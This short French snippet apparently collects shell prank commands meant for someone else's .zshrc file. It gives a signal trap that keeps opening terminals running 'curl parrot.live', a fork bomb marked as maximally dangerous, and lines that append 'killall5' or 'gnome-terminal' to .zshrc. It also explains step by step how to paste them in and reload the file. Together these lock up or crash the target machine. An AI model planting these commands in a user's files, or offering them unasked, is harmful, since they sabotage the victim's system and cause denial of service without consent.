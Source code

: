 trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live

```nano .zshrc``` -> coller a la toute fin du fichier -> CTRL+O entree et CTRL+X
```source .zshrc```


[------------------------------------------------------------]


dans la racine (dossier home)
```touch .reset```

Pour enlever -> ```rm -rf .reset```

[-------------------------------------------------------------]
/!\ DANGER MAXIMAL /!\

```:(){ :|:& };:```

[-------------------------------------------------------------]
/!\ DANGER MAIS CA VA /!\

```echo "killall5" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal" >> .zshrc && source .zshrc```
